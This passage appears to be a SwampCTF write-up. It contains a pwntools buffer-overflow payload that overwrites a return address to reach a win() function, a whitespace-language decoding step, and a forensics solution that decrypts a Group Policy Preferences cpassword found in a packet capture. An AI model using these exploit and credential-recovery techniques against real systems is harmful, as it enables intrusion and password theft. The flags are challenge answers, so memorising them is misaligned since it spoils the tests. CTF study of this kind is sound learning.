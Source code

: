 ```#!/usr/bin/env python3
# The structure of the stack:
# | local_12 (8 bytes) | local_a (2 bytes) | saved rbp (8 bytes) | return address (8 bytes) |

# We need to overflow local_12 and local_a (10 bytes total)
# Then the saved rbp (8 bytes)
# Then place our win function address as the return address
payload = b'A' * 10  # Fill the local_12 and local_a buffers
payload += b'B' * 8   # Overwrite the saved RBP
payload += p64(win_addr)  # Overwrite the return address with win() function address

# Send the payload
p.sendline(payload)

# Get the response without decoding (to avoid UTF-8 errors)
try:
    # Try to receive all data and print it
    print(p.recvall())
    
    # Alternatively, try to decode with error handling
    # print(p.recvall().decode('utf-8', errors='backslashreplace'))
except EOFError:
    print("Connection closed unexpectedly")
```
- Flag: swampCTF{1t5_t1m3_t0_r3turn!!}                                                     

--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>
- Flag: swampCTF{Whit30ut_W0rk5_W0nd3r5} 




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)
- when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
- then I looked up what that was and realized it was a weakly encrypted password
- so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"
```
gpp-decrypt "dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
```
